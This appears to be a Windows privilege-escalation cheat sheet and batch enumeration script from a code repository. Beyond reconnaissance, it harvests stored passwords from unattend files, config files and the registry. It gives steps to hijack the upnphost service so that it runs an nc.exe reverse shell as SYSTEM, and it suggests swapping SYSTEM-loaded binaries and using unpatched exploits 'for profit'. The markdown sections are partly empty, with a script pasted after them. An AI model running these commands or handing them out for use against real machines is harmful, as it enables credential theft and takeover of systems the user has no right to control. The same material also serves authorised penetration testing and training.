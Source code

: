 # Windows Privilege Escalation Guide

Step-by-step guide to Windows privilege escalation.

## 1. SYSTEM INFORMATION + ACCOUNTS

```bash
$ systeminfo | findstr /C:"OS Name" /C:"OS Version" /C:"Logon Server"
$ echo %username%         # current user
$ whoami                  # current user
$ set                     # env variables
$ net users               # return a list of all user accounts on the system
$ net user [user]         # return detailed info about a user
```

## 2. NETWORKING

```vb
$ ipconfig /all           # show details for all network interfaces, physical and logical
$ route print             # show the routing table - set of rules to determine where packets will be directed
$ arp -A                  # show the ARP cache table - a cache of IP / unique MAC address pairs in a single LAN

$ netstat -ano        
```

## 3. WINDOWS TASKS

## 4. QUICK WINS

## 5. WINDOWS SERVICES, FILE/FOLDER PERMISSIONS

echo ################################################################ 
echo PART 2: ENUMERATE NETWORKING
echo ################################################################

echo >>>>>>>>>>>>>>>>>>>> INTERFACES
ipconfig /all

echo >>>>>>>>>>>>>>>>>>>> ROUTING TABLE
route print

echo >>>>>>>>>>>>>>>>>>>> ARP CACHE TABLE
arp -A

echo >>>>>>>>>>>>>>>>>>>> ACTIVE CONNECTIONS + FIREWALL RULES
netstat -ano
netsh firewall show state
netsh firewall show config

echo ################################################################
echo PART 3: ENUMERATE WINDOWS TASKS                        
echo ################################################################
echo NOTE: TAKE THE TIME TO INSPECT ALL BINPATHS FOR WINDOWS SERVICES, SCHEDULED TASKS AND STARTUP TASKS.

echo >>>>>>>>>>>>>>>>>>>> SCHEDULED TASKS (VERBOSE)
schtasks /query /fo LIST /v

echo >>>>>>>>>>>>>>>>>>>> RUNNING PROCESSES / ASSOCIATED SERVICES
tasklist /SVC

echo >>>>>>>>>>>>>>>>>>>> STARTED WINDOWS SERVICES
net start

echo >>>>>>>>>>>>>>>>>>>> 3RD-PARTY DRIVERS
driverquery

echo ################################################################
echo PART 4: QUICK WINS
echo ################################################################

echo >>>>>>>>>>>>>>>>>>>> USER IS AN ADMINISTRATOR
echo NOTE: If your user is part of the "Administrators" group, you can easily get to SYSTEM by reconfiguring a service or creating a scheduled task with SYSTEM privs.
net user %username%

echo >>>>>>>>>>>>>>>>>>>> MISSING WINDOWS PATCHES
echo NOTE: WMIC is mostly not available to non-Administrators.
echo (1) Find Windows privesc exploits.
echo (2) Grep for their existence (using KB numbers) among the list of installed patches.
echo (3) See if any exploits are missing from the patch list.
echo (4) Use exploits and profit.

wmic qfe get Caption,Description,HotFixID,InstalledOn

echo >>>>>>>>>>>>>>>>>>>> HARDCODED CREDENTIALS IN CONFIGURATION FILES
type C:\sysprep.inf
type C:\sysprep\sysprep.xml
type %WINDIR%\Panther\Unattend\Unattended.xml
type %WINDIR%\Panther\Unattended.xml

echo >>>>>>>>>>>>>>>>>>>> MORE HARDCODED CREDENTIALS x2
dir /s *pass* == *cred* == *vnc* == *.config*

echo >>>>>>>>>>>>>>>>>>>> MORE HARDCODED CREDENTIALS x3 (.xml .ini .txt)
findstr /si password *.xml *.ini *.txt

echo >>>>>>>>>>>>>>>>>>>> MORE HARDCODED CREDENTIALS x4 (in registry)
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

echo >>>>>>>>>>>>>>>>>>>> "AlwaysInstallElevated" SETTING
echo This setting allows users of any priv to install .msi files as SYSTEM.
echo Both values need to = 1 to exploit this.

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

echo ################################################################
echo PART 5: DEEP-DIVE WINDOWS SERVICES, FILE/FOLDER PERMISSIONS
echo ################################################################

echo NOTE: FOR RESTARTING SERVICES OR BINARIES, TRY VARIOUS METHODS SUCH AS:
echo => net start
echo => sc start
echo => mysql> RESTART; (using service commands to restart)

echo >>>>>>>>>>>>>>>>>>>> WINDOWS SERVICES (MANUAL ENUM)
echo (1) Query windows service
echo CMD: sc qc [servicename]
echo (2) Check required privilege level for each service using accesschk.exe
echo CMD: accesschk.exe -ucqv UPNPHOST
echo (3) Find services which allow access for "Authenticated Users" (logged-in users). Also check which group your user belongs to.
echo CMD: accesschk.exe -uwcqv "Authenticated Users" *
echo (4) Re-configure services to execute a root-shell.
echo STEP 1: Change binary path to execute a reverse-shell
echo CMD: sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
echo STEP 2: Change password for service
echo CMD: sc config upnphost obj= ".\LocalSystem" password= ""
echo STEP 3: Start the service and execute your reverse-shell
echo CMD: net start upnphost

accesschk.exe -uwcqv "Authenticated Users" * /accepteula

echo >>>>>>>>>>>>>>>>>>>> FILE AND FOLDER PERMISSIONS

echo (1) Check for weak permissions "NT AUTHORITY\AUTHENTICATED USERS: <I> <M>".
echo CMD: icacls [file or folder path] | cacls [file or folder path] | accesschk.exe -dqv [file or folder path]
echo (2) For binaries that load with SYSTEM privileges, replace with your own binary.

echo Finding all weak folder permissions per drive
accesschk.exe -uwdqs Users c:\ /accepteula
accesschk.exe -uwdqs "Authenticated Users" c:\

echo Finding all weak file permissions per drive
accesschk.exe -uwqs Users c:\*.* /accepteula
accesschk.exe -uwqs "Authenticated Users" c:\*.*

echo >>>>>>>>>>>>>>>>>>>> CHECK PATH SYSTEM VARIABLE (MANUAL ENUM)
echo NOTE: All non-default directories in root "C:\" will give WRITE access to the Authenticated Users group!!!

echo Look for non-default dirs: %path%


